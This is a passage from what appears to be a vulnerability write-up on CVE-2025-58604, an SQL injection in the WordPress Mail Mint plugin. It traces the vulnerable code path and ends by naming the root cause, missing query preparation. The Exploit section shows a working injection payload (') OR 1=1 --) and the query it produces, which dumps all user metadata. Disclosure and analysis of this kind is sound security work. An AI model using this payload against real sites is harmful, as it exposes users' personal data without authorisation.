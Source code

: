    * The `$request` object is converted to an array `$params`.
3. The callback then calls `retrieve_contacts_associated_with_learndash($params)`.
4. That function finally calls `get_wp_users_by_learndash_with_limit_offset($courses, $number = 5, $offset = 0)` where:

   * `$courses = $params['selectedCourses']`
   * `$keys` is an array built from all `value` fields in `$courses`, concatenated like `course_{COURSE_ID}_access_from`.
   * Before being inserted into the SQL query, the `$keys` array is merged into a string using `implode()`.
5. The query is executed and returns a JSON response with `formatted_users` and `total_users`.

## Exploit

After analyzing the code, it’s clear that the `selectedCourses` parameter undergoes several transformations before being injected into the vulnerable SQL query — but the attacker still controls the `value` key.

**POST request using BurpSuite:**

A single key can be used to easily control the final SQL query.

{{< figure src="request_success.png" caption="Get all user info" alt="Get all user info" >}}

The resulting query looks like this:

```sql
SELECT user_id 
FROM wp_usermeta 
WHERE meta_key IN ('course_abc') OR 1=1 -- _access_from') GROUP BY user_id LIMIT 5 OFFSET 0
```

* `')` escapes the `IN` clause
* `1=1` is always true → returns all user IDs from `wp_usermeta`

The rest of the function retrieves metadata for all returned users:

```php
$formatted_users = array_map(
    function ($user) {
        $user->usermeta = array_map(
            function ($user_data) {
                return reset($user_data);
            },
            get_user_meta($user->ID)
        );
        return $user;
    },
    $contacts
);
```

## Conclusion

The **CVE-2025-58604** vulnerability in the WordPress **Mail Mint** plugin (prior to version 1.18.6) originates from not using `$wpdb->prepare()` when executing SQL queries.
Instead, user input was directly concatenated into the SQL statement — leading to a classic SQL Injection vulnerability.
